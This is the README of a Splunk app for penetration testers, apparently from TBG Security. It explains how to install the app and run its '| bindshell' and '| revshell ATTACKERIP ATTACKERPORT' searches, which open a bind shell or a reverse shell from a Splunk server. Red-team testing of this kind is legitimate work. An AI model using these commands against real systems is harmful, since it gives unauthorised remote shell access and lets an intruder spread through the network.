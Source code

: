 Splunk Shells App
Version 1.0

TBG Security
Ryan Hays

This app is to help with penetration testing and Red Teaming within environments that have a Splunk deployment.

This app will allow the engineer to spawn a Reverse of Bind Shell from a Splunk server to allow the engineer to
interact with the server and expand influence within the environment.

# Install
Download the release from <INSERT RELEASE URL>

Navigate to the "Manage Apps" and click on "Install app from file"

![Alt text](appserver/static/splunk_apps.png?raw=true "Optional Title")

Click on "Choose File" and select the downloaded release archive.

![Alt text](appserver/static/splunk_install.png?raw=true "Optional Title")

Once it is installed you will have to restart Splunk

![Alt text](appserver/static/splunk_restart.png?raw=true "Optional Title")

For Splunk v6.5 ONLY
Once Splunk is restarted click on Permissions for the splunk_shells app. Ensure the last permission "Sharing for config file-only objects" has "all apps" selected.

![Alt text](appserver/static/splunk_permissions.png?raw=true "Optional Title")

# Usage
using each of these shells can be done from the Search and Reporting app. Execute the following searches:

'| bindshell PORTNUMBER' The port number can be specified or left off if left off the default is 8888

'| revshell ATTACKERIP ATTACKERPORT' The Attacker IP and Port need to be specified for the shell to call back.